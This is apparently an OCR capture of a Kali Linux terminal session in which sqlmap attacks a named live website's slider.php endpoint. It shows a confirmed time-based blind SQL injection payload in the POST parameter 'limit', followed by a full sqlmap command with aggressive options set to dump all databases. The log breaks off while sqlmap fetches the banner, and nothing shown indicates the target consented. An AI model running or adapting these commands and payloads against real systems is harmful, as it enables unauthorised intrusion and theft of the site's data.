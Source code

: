 [*] starting at 16:21:53

[16:21:54] [INFO] resuming back-end DBMS 'mysql' 
[16:21:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:21:54] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:21:54] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 16:21:54

root@kali:~# --random-agent --level 5 --risk 3 --hex --time-sec=100 --tamper=between --dbs --dump-all --dbms="mysql" --threads=5 --ignore-code=500 --tamper=between -b -o --ignore-code=999 --parse-error --hex
bash: --random-agent: command not found
root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --random-agent --level 5 --risk 3 --hex --time-sec=100 --tamper=between --dbs --dump-all --dbms="mysql" --threads=5 --ignore-code=500 --tamper=between -b -o --ignore-code=999 --parse-error --hex
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:22:19

[16:22:19] [INFO] loading tamper module 'between'
[16:22:19] [INFO] loading tamper module 'between'
[16:22:19] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 6.0; pt-BR; rv:1.9.2.18) Gecko/20110614 Firefox/3.6.18 (.NET CLR 3.5.30729)' from file '/usr/share/sqlmap/txt/user-agents.txt'
[16:22:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(100000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:22:20] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:22:20] [INFO] testing MySQL
[16:22:20] [INFO] confirming MySQL
[16:22:20] [INFO] the back-end DBMS is MySQL
[16:22:20] [INFO] fetching banner
[16:22:20] [WARNING] multi-threading is considered unsafe in time-based data retrieval. Going to switch it off automatically
[16:22:20] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)